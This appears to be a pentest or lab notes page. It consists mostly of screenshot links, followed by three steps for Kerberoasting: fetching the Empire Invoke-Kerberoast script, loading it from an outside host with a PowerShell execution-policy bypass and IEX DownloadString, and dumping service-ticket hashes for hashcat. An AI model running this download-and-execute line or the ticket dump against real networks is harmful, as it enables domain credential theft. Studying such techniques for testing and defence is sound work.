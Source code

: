![image](https://github.com/user-attachments/assets/51305beb-5cee-40a8-b95d-5772deda6701)
![image](https://github.com/user-attachments/assets/2f31e786-307a-4b4c-a48c-45be231e94fc)
![image](https://github.com/user-attachments/assets/74abcda2-fc49-4a15-9794-62846da2c92b)
![image](https://github.com/user-attachments/assets/6c914723-c869-4f76-ad40-fd1d648c06f1)
![image](https://github.com/user-attachments/assets/e53ed01c-91fc-4517-8046-8444433dc375)
![image](https://github.com/user-attachments/assets/8f727c3a-c650-4e26-9d72-e7e020d33ede)
![image](https://github.com/user-attachments/assets/2602a5f0-f473-4ada-8235-8d42da9a31e7)
![image](https://github.com/user-attachments/assets/1710a697-8039-466d-862c-53bc29400d7b)
![image](https://github.com/user-attachments/assets/b9b1853b-e1ad-43e1-8423-d7b8e9af7864)
![image](https://github.com/user-attachments/assets/f6988213-c004-4228-90ae-4e763b0073ac)
![image](https://github.com/user-attachments/assets/14f1c62c-0de4-401a-9d00-bad247279b3f)
![image](https://github.com/user-attachments/assets/de5fa436-8396-4e47-b2e4-f580bc7d689a)
![image](https://github.com/user-attachments/assets/46e64634-dde3-43b4-9722-64ad2f5696fb)
![image](https://github.com/user-attachments/assets/3aa648dc-bafe-40c5-9690-ad201a7e39d2)
![image](https://github.com/user-attachments/assets/81b10f25-6809-4f64-b0d9-71bf899a7cf8)
![image](https://github.com/user-attachments/assets/a0536f97-5a81-4745-883a-2b6c3cb2c8eb)
![image](https://github.com/user-attachments/assets/9c384af2-7761-4d65-858b-df438bdc1807)
![image](https://github.com/user-attachments/assets/3dec7fde-ba51-421b-b8cd-73629cf6bf7a)
![image](https://github.com/user-attachments/assets/2c8a3579-1425-478e-ac6d-3ce2c48b9a7d)
![image](https://github.com/user-attachments/assets/01e68259-f8fa-4437-a368-a76222c0c452)
![image](https://github.com/user-attachments/assets/efcb8d48-3f07-46eb-a5fc-ee2fe9a6ebd3)
![image](https://github.com/user-attachments/assets/39f2286a-30c1-408d-b927-37741d3f1e83)

Another way to get SPN TGS ticket: 

1. download Kerberoast.ps1 (https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1)

2. upload to writable path (PS C:\Windows\System32\spool\drivers\color> powershell -ep bypass;
IEX(New-Object Net.WebClient).DownloadString('https://10.4.95.140/Kerberoast.ps1') 

3. Invoke-Kerberoast -OutputFormat hashcat ​ |fl
